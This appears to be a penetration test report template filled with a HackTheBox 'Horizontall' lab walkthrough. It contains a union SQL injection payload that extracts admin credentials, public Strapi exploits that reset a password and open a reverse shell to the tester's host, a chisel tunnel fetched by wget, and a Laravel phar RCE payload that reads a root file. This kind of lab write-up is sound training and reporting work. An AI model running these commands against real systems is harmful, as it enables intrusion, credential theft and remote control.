



# Confidential statement

This document is the exclusive property of `<CLIENT COMPANY NAME>` and `<NAME OF ASSESSING COMPANY>` containing sensitive, privileged, and confidential information. Precautions should be taken to protect the confidentiality against duplication, redistribution or use, avoiding reputational damage to `<CLIENT COMPANY NAME>` or facilitating attacks against `<CLIENT COMPANY NAME>`.

`<NAME OF ASSESSING COMPANY>` shall not be liable for any damages that the use of this information may cause.

# Disclaimer

The service/s performed to the client are considered a snapshot in time of `<CLIENT COMPANY NAME>`'s environment. The findings and recommendations reflect the information gathered during the assessment and not any changes or modifications made outside of that period.

Finally, note that this assessment may not disclose all vulnerabilities present on the systems within the scope of the engagement that could appear in the future. This report contains the findings from a specific point-in-time made on `<CLIENT COMPANY NAME>`' s environment. 

# Executive summary

## Synopsis

*`<NAME OF ASSESSING COMPANY>` was hired by `<CLIENT COMPANY NAME>` to provide the service/s of `<SERVICE/S>` to specific systems. When performing the `<SERVICE>`, there ware several alarming vulnerabilities that were identified in the company's network.`<NAME OF ASSESSING COMPANY>` was able to extract all the data from a public database and perform Remote Code Execution through the web application.*

## Observed security strengths

[...]

## Overall Risk rating

*The overall risk identified to `<CLIENT COMPANY NAME>` as a result of thH penetration test is \textcolor{High}{High}. This rating implies an ELEVATED risk of security controls being compromised with the potential for material financial losses, based on two high-risk and several medium vulnerabilities.*

# Technical report

## Scope

The scope for the **footprinting** phase was all the `<CLIENT COMPANY NAME>` public information that a user could find on the Internet.

The scope for the **pentesting** and vulnerability assessment services were the following systems:

* 10.129.167.200
* 127.0.0.1

## Footprinting

 In this section, a number of items should be written up to show the CLIENT the extent of public and private information available through the execution of the Information gathering phase. The information could be classified ad:

* Passive
* Active
* Corporate
* Personal

## Vulnerability assessment

### Union SQL Injection

|                      |                                        |
| -------------------- | -------------------------------------- |
| **Status**           | Active                                 |
| **Criticality**      | \textcolor{Critical}{Critical}         |
| **CVSS Base Score**  | 10 AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H |
| **Category**         | Web                                    |
| **Vulnerability ID** | WEB_001                                |
| **Assets**           | 127.0.01                               |

#### Description

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database by adding a string of malicious code to a database query.

#### Impact

An attacker can obtain, modify and delete any information stored in the database.

#### Proof of Concept

By changing the value of the id parameter with  `-1 UNION (SELECT 1,2,3)`, we can insert values that will be later shown on the server's response.


Finally, it was possible to obtain the admin's credentials with the following payload.

```bash
http://localhost/index.php?id=-1%20UNION%20(SELECT%20id,%20email,%20password%20from%20users%20where%20id=1)
```

{width=250px .fragile}

#### Mitigations

`<NAME OF ASSESSING COMPANY>` recommends patching the vulnerability by using prepared SQL statements with parameterized queries, user input validation and enforcing the principle of least privilege.

#### References

[https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

\newpage

## Pentesting

### Enumeration

First of all, a port scan with **Nmap** was performed on the host to obtain the available services.

```bash
kali@kali:~/Documents/HTB/Horizontall$ sudo nmap -sS -p- -n -T5 -oN AllPorts.txt 10.129.167.200
Nmap scan report for 10.129.167.200
Host is up (0.11s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Mon Aug 30 09:06:45 2021 -- 1 IP address (1 host up) scanned in 176.68 seconds
```

Then, a deeper scan of each opened port was performed, getting more information about each service.

```bash
kali@kali:~/Documents/HTB/Horizontall$ sudo nmap -sC -sV -n -T5 -oN PortsDepth.txt -p 22,80 10.129.167.200
Nmap scan report for 10.129.167.200
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap output provides us with the domain `horizontall.htb`, adding this to the `/etc/hosts` we have access to the web page.


Looking for virtual hosts on the web server with **gobuster** a new virtual host was found.

```bash
kali@kali:~/Documents/HTB/Horizontall$ gobuster vhost -o subdomains.txt -t 40 -w //usr/share/wordlists/SecLists/Discovery/DNS/./subdomains-top1million-110000.txt -u http://horizontall.htb/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://horizontall.htb/
[+] Method:       GET
[+] Threads:      40
[+] Wordlist:     //usr/share/wordlists/SecLists/Discovery/DNS/./subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2021/08/30 09:16:41 Starting gobuster in VHOST enumeration mode
===============================================================
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
```

Accessing the virtual host a welcome message is received.


With further enumeration, the following directories were obtained.

```bash
kali@kali:~/Documents/HTB/Horizontall$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -x php,html,txt,doc -t 40 -o GoBuster.txt -u http://api-prod.horizontall.htb/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://api-prod.horizontall.htb/
[+] Method:       GET
[+] Threads:      40
[+] Wordlist:     /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txtxt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2021/08/30 09:16:41 Starting gobuster in VHOST enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 413]
/reviews              (Status: 200) [Size: 507]
/users                (Status: 403) [Size: 60]
/admin                (Status: 200) [Size: 854]
/robots.txt           (Status: 200) [Size: 121]
```

Inside the `/admin` directory there is an **strapi** [login](http://api-prod.horizontall.htb/admin/auth/login) page.



With the following command, we can check the **strapi** version for a later CVE search.

```bash
kali@kali:~/Documents/HTB/Horizontall$ curl http://api-prod.horizontall.htb/admin/strapiVersion; echo
{"strapiVersion":"3.0.0-beta.17.4"}
```

### Exploitation

Looking on google there is a [post](https://thatsn0tmysite.wordpress.com/2019/11/15/x05/) about how to exploit the [**CVE-2019-18818**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-18818), resetting the administration password knowing the admin's email.

```bash
kali@kali:~/Documents/HTB/Horizontall$ python3 CVE-2019-18818.py admin@horizontall.htb http://api-prod.horizontall.htb 1234
[*] Detected version(GET /admin/strapiVersion): 3.0.0-beta.17.4
[*] Sending password reset request...
[*] Setting new password...
[*] Response:
b'{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMzQ
0Nzc4LCJleHAiOjE2MzI5MzY3Nzh9.mv0KdDw8j9uoekrJgXRf0a4KqBb8F1rrW59J1tttmdQ","user":{"id":3, "username":"admin","email":"admin@horizontall.htb","blocked":null}}'
```

In order to obtain a reverse shell, another CVE is needed, looking on google again web appears this [exploit](https://raw.githubusercontent.com/dasithsv/CVE-2019-19609/main/exploit.py) for the **CVE-2019-19609**. 

Putting it all together, a reverse shell as "strapi" can be obtained.

```bash
kali@kali:~/Documents/HTB/Horizontall$ python exploit.py api-prod.horizontall.htb 10.10.14.82 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMzQ0Nzc4LCJleHAiOjE2
MzI5MzY3Nzh9.mv0KdDw8j9uoekrJgXRf0a4KqBb8F1rrW59J1tttmdQ http://api-prod.horizontall.htb/

Strapi Framework Vulnerable to Remote Code Execution - CVE-2019-19609
please set up a listener on port 9001 before running the script. you will get a shell to that listener


kali@kali:~/Documents/HTB/Horizontall$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.82] from (UNKNOWN) [10.129.167.200] 37538
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```

### Post-Exploitation - Privilege Escalation

Enumerating the machine, there are some services running on **localhost**. 

```bash
strapi@horizontall:~/myapi$ netstat -putona
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1845/node /usr/bin/  off (0.00/0/0)
```

In order to access the localhost listening ports, [chisel](https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_linux_amd64.gz) was used to do **port forwarding**. 

```bash
kali@kali:~/UTILS$ ./chisel server -p 4444 --reverse
2021/08/30 14:45:18 server: Reverse tunnelling enabled
2021/08/30 14:45:18 server: Fingerprint MUXg3S3pARA8Rd3hCfsGhdHH8RWZUiVY3d6TaBACa7s=
2021/08/30 14:45:18 server: Listening on http://0.0.0.0:4444
2021/08/30 14:46:21 server: session#1: tun: proxy#R:8000=>localhost:8000: Listening

strapi@horizontall:/tmp$ wget 10.10.14.82/chisel
strapi@horizontall:/tmp$ chmod +x chisel
strapi@horizontall:/tmp$ ./chisel client 10.10.14.82:4444 R:8000:localhost:8000
2021/08/30 19:23:19 client: Connecting to ws://10.10.14.82:4444
```

Now,  it is possible to access the **laravel** web page.



Looking exploits for Laravel v8 appears the vulnerability **CVE-2021-3129** with the following [exploit](https://raw.githubusercontent.com/ambionics/laravel-exploits/main/laravel-ignition-rce.py). Nonetheless, the library **[PHPGGC](https://github.com/ambionics/phpggc)** is needed to create a payload. In this case, the payload obtains a file from the system.

```bash
kali@kali:~/Documents/HTB/Horizontall$ git clone https://github.com/ambionics/phpggc.git
Cloning into 'phpggc'...
remote: Enumerating objects: 2504, done.
remote: Counting objects: 100% (846/846), done.
remote: Compressing objects: 100% (471/471), done.
remote: Total 2504 (delta 331), reused 740 (delta 251), pack-reused 1658
Receiving objects: 100% (2504/2504), 379.20 KiB | 866.00 KiB/s, done.
Resolving deltas: 100% (973/973), done.
Updating files: 100% (186/186), done.
kali@kali:~/Documents/HTB/Horizontall$ cd phpggc/
kali@kali:~/Documents/HTB/Horizontall/phpggc$ php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "cat /root/root.txt"
```

Finally, executing the exploit the file is retrieved from the system.

```bash
kali@kali:~/Documents/HTB/Horizontall$ python3 laravel-ignition-rce.py http://localhost:8000/ /tmp/exploit.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
[CENSORED]
--------------------------
+ Logs cleared
```


# HOUSE CLEANING

During a penetration testing engagement, tools, files, user accounts, etc., were created on the client's environment which would compromise the client's security.
After the completion of the engagement, `<NAME OF ASSESSING COMPANY>` ensures that remnants of the test are removed. 

# Appendix

## Changes during the test

[...]

## Risk rating Scale

| Risk                           | Description                                                  |
| ------------------------------ | ------------------------------------------------------------ |
| \textcolor{Critical}{Critical} | The vulnerability poses an immediate threat to the organization. Successful exploitation may permanently affect the organization. Remediation should be immediately performed. |
| \textcolor{High}{High}         | The vulnerability poses an urgent threat to the organization, and remediation should be prioritized. |
| \textcolor{Medium}{Medium}     | Successful exploitation is possible and may result in notable disruption of business functionality. This vulnerability should be remediated when feasible. |
| \textcolor{Low}{Low}           | The vulnerability poses a negligible/minimal threat to the organization. The presence of this vulnerability should be noted and remediated if possible. |

## Vulnerability states

The vulnerabilities can be in one of the following states:

* **Potential**: The vulnerability has been identified but its exploitation has not been possible, so its existence cannot be fully verified, and it is up to the client to determine the impact.

* **Active**: The vulnerability has been identified and it has been possible to verify its existence.
